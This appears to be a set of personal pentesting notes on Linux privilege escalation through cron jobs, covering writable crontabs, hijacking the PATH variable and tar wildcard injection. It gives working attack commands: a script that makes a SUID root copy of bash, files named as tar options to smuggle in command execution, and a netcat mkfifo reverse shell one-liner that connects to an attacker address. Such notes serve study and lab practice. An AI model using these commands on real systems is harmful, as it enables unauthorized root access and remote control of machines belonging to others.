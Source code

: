 ## File Permission
cron jobs that runs with root privilege can be used as a privilege escalation method.
See the systemwide crontabs(cron table file) `cat /etc/crontab` to see what jobs run with root privilee then edit those file if possible to run reverse shell.

## PATH environment variable
even if we can't change the cron jobs, we can maybe overwrite the file by abusing the PATH variable priority(where PATH is read left to right) if we have a permission to write into the higher priority PATH. Basically make the same file as a cronjob so that your file would be the one that is read.
Then create a root shell with this script
```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash && chmod +xs /tmp/rootbash
chmod +xs /tmp/rootbash
```

## Wildcards
using wildcard as an argument can break privilege. In this example a shell cronjob that runs tar use a wildcard argument in the lowe privilege user folder. The user can make a file that disguised as an argument and abuse the cron jobs privilege to run reverse root shell.
```bash
touch /home/user/--checkpoint=1  
touch /home/user/--checkpoint-action=exec=shell.elf

# OR THIS ONE WHERE TAR IS RAN ON /var/www/html
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip>
1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"

```
The command above make a file with a filename that looks like an argument. The argument makes tar go to a checkpoint, and do something(in this case exec a reverse shell executable) in those checkpoint.